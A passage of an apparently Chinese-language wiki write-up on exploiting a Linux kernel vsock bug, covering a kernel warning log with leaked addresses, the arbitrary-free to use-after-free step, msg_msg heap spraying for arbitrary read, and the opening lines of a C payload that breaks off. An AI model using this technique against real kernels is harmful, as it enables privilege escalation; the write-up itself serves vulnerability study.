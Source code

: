 內核信息洩露
------------

</translate>

<translate> 這裡使用了[CVE-2019-18683](https://www.pwnwiki.org/index.php?title=CVE-2019-18683_Linux_kernel_through_5.3.8_%E7%89%B9%E6%AC%8A%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E)相同的技巧。虛擬套接字的第二個connect()調用`vsock_deassign_transport()`，將`vsk->transport`設置為NULL，使得`vsock_stream_setsockopt()`在內存崩潰後調用`virtio_transport_send_pkt_info()`，出現內核告警： </translate>

    WARNING: CPU: 1 PID: 6739 at net/vmw_vsock/virtio_transport_common.c:34
    ...
    CPU: 1 PID: 6739 Comm: racer Tainted: G        W         5.10.11-200.fc33.x86_64 #1
    Hardware name: QEMU Standard PC (Q35 + ICH9, 2009), BIOS 1.13.0-2.fc32 04/01/2014
    RIP: 0010:virtio_transport_send_pkt_info+0x14d/0x180 [vmw_vsock_virtio_transport_common]
    ...
    RSP: 0018:ffffc90000d07e10 EFLAGS: 00010246
    RAX: 0000000000000000 RBX: ffff888103416ac0 RCX: ffff88811e845b80
    RDX: 00000000ffffffff RSI: ffffc90000d07e58 RDI: ffff888103416ac0
    RBP: 0000000000000000 R08: 00000000052008af R09: 0000000000000000
    R10: 0000000000000126 R11: 0000000000000000 R12: 0000000000000008
    R13: ffffc90000d07e58 R14: 0000000000000000 R15: ffff888103416ac0
    FS:  00007f2f123d5640(0000) GS:ffff88817bd00000(0000) knlGS:0000000000000000
    CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
    CR2: 00007f81ffc2a000 CR3: 000000011db96004 CR4: 0000000000370ee0
    Call Trace:
      virtio_transport_notify_buffer_size+0x60/0x70 [vmw_vsock_virtio_transport_common]
      vsock_update_buffer_size+0x5f/0x70 [vsock]
      vsock_stream_setsockopt+0x128/0x270 [vsock]
    ...

<translate> 通過gdb調試，發現RCX寄存器包含了釋放的virtio_vsock_sock的內核地址，RBX寄存器包含了vsock_sock的內核地址。 </translate>

<translate>

實現任意讀
----------

</translate>

<translate>

### 從 arbitrary free 到 use-after-free

</translate>

<translate> 從洩露的內核地址釋放一個對象 執行堆噴，用受控數據覆蓋該對象 使用損壞的對象進行權限升級 內核實現的System V消息有限制最大值DATALEN_MSG，即PAGE_SIZE減去sizeof(struct msg_msg))。如果你發送了更大的消息，剩餘的消息會被保存在消息段的列表中。 msg_msg中包含struct msg_msgseg \*next用於指向第一個段，size_t m_ts用於存儲大小。當進行覆蓋操作時，就可以把受控的值放在msg_msg.m_ts和msg_msg.next中： </translate>

![](T01a51dfe7a996e854c.png "T01a51dfe7a996e854c.png")

Payload:

        #define PAYLOAD_SZ 40
        void adapt_xattr_vs_sysv_msg_spray(unsigned long kaddr)
        {
            struct msg_msg *msg_ptr;
